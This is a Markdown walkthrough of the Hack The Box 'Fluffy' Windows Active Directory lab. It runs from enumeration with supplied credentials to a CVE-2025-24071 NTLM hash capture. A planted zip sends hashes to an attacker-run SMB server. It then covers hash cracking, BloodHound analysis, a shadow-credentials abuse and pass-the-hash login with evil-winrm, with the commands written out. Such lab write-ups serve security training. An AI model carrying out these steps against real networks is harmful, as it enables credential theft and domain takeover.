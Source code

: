
# Executive Summary – HTB Fluffy

The HTB Fluffy machine is an "Easy" rated Windows Active Directory environment designed to simulate a real-world enterprise network. 

This engagement commenced with initial access via valid credentials for the user `j.fleischman`, provided in a compromised state. Subsequent enumeration and exploitation revealed several critical vulnerabilities:

## Successful Attacks / Compromise
- **CVE-2025-24071**: Vulnerability in Simple DNS Plus allowing NTLMv2 hash extraction.
- **Shadow Credentials Misuse**: Exploitation of GenericWrite permissions to escalate privileges.



## Other Findings / Unsuccessful Attacks
- Listing domain users via `rpcclient enumdomusers`, revealing accounts like `Administrator`, `Guest`, `krbtgt`, service accounts (`ca_svc`, `ldap_svc`, `winrm_svc`), and user accounts (`j.coffey`, `p.agila`).  
- Gathering user information via `rpcclient queryuser j.fleischman` (password last set time, logon details, account privileges).  
- Collecting server information via `rpcclient srvinfo` (platform, OS version).  
- Kerberoasting attempted using `GetUserSPNs.py` with valid credentials. Extracted TGS hashes were tested with `Hashcat -m 13100` using wordlists (`rockyou.txt`, `johnlist`, `10k-most-common.txt`) without success.

## Key Takeaways
- Full domain compromise is possible via chained AD vulnerabilities.  
- Valid user credentials provide substantial access for enumeration.  
- Kerberoasting is a high-value attack vector, but strong service account passwords mitigate risk.  
- Detailed AD enumeration (users, groups, privileges) is critical before attempting privilege escalation.


# Detailed reproduction steps for this CVE-2025-24071 & Shadow Credentials Misuse

`sudo nmap -sC -sV 10.129.165.40`
NMAP is tool ised for port scanning, service dction and network disocver. 
- `-sC` runs nmap default scripts
- `sV` tries to identify the exact software running. 


<img src="images/nmap_scan.png" alt="nmap scan">


Next enumrate SMB share
`smbmap -H 10.129.165.40 -u "j.fleischman -p J0elTHEM4n1990!"`
 <img src="images/smbmap.png" class="report-images" alt="SMBMAP">

Form this we wee have read and write to IT share so lets see connect to that share and see if there is anything in it.

`smbclient //10.129.165.40/IT -U "j.fleischman"`


smb: \> ls
  .                                   D        0  Fri Sep  5 20:08:31 2025
  ..                                  D        0  Fri Sep  5 20:08:31 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 16:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 16:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 16:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 16:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 15:31:07 2025

Download UPgrade_Notice.pdf and you will see a list of vulnerbites that need patching. 
![!PDF on the SMB](images/notice.png)

To find a good example of how to run a exploit CVE- Title -github poc in google. 
You should find https://github.com/LOOKY243/CVE-2025-24071-PoC


### Steps
1. Copy the exploit.py file to your machine 
2. python3 `exploit.py -i 10.10.16.40 -s shared -f evil`
 3. Start listener for hash capture:
   `sudo impacket-smbserver shared /home/franky/Documents/FLUFFY -smb2support`
   3. Upload payload to target IT share.
      `put evil.zip`

4. You should see username + hash on listner.

5. Crack the with rockyou.txt: 
  `hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`

6. Create a BloodHound file and upload to bloodhound review.
      `sudo nxc ldap dc01.fluffy.htb -u '<USERNAME>' -p '<PASSWORD>' \
      --bloodhound --collection All --dns-tcp --dns-server <TARGET_IP>`
7. `BloodHound`
8. Should see BloodHound open in new tab in firefox
9. Upload the ladp file we created to upload 
10. Search for User we enumerated
11. Examine relationships and you will see this 


![BloodHound Scan](images/Bloodhound.png)


12. If examine WINRM_SVC in BloddHound, it is member of remote services add can remote login. If we try to use EVil-winrm for user p.agila or J.FLEISCHMAN will see users dint have permisison. 

Observations form BloodHound

The user we found is in SERVICE ACCOUNT MANAGERS, which has full control (GenericAll) over SERVICE ACCOUNTS; SERVICE ACCOUNTS can modify WINRM_SVC (GenericWrite).

Implications: User can indirectly modify service accounts. Compromising this user could allow escalation to WINRM_SVC via the permission chain. WINRM_SVC can access remote login is and likely has the flag. 

## Preparations

- Start a virtual environment in your folder and install the following tools in a virtual environment:
  - `pywhisker`
  - `PKINITtools`
  - `faketime`


---

### Add User to Service Accounts

`net rpc group addmem "Service Accounts" "<USER>" \
  -U "dc01.fluffy.htb"/"<USER>" -S "<TARGET_IP>"`


### Request Kerberos TGT for Service Account

If your local time does not match the Domain Controller (DC), you may encounter errors. Synchronize time first:

`sudo rdate -n <TARGET_IP>`



`faketime <DATE_TIME> python3 gettgtpkinit.py \ -cert-pem key_cert.pem \ -key-pem key_priv.pem \ fluffy.htb/<SERVICE_ACCOUNT> \  <SERVICE_ACCOUNT>.ccache`


### Set the Kerberos ticket environment variable:

> Why we do this: 

 > When you log in with a valid ticket, it gets stored in /tmp/krb5cc_<UID>.

> All Kerberos-enabled tools (smbclient, psexec.py, ldapsearch, etc.) will look in that default location to authenticate.

> But in a pentest, you often manually extract or forge tickets (e.g., with impacket, Mimikatz, or AD CS attacks). Those tickets don’t automatically go to /tmp/krb5cc_<UID>. They’re saved in a .ccache file.

> So, to make Kerberos-aware tools use your forged/extracted ticket, you tell them where it is:

`export KRB5CCNAME=<SERVICE_ACCOUNT>.ccache`


Tip: Ensure the KRB5CCNAME export works in your virtual environment. Use an absolute path if necessary.

### Retrieve NT Hash

`faketime <DATE_TIME> python3 getnthash.py \ -key <KEY> fluffy.htb/<SERVICE_ACCOUNT>`

### Access Service Account
`evil-winrm -i <TARGET_IP> -u <SERVICE_ACCOUNT> -H <NT_HASH>`



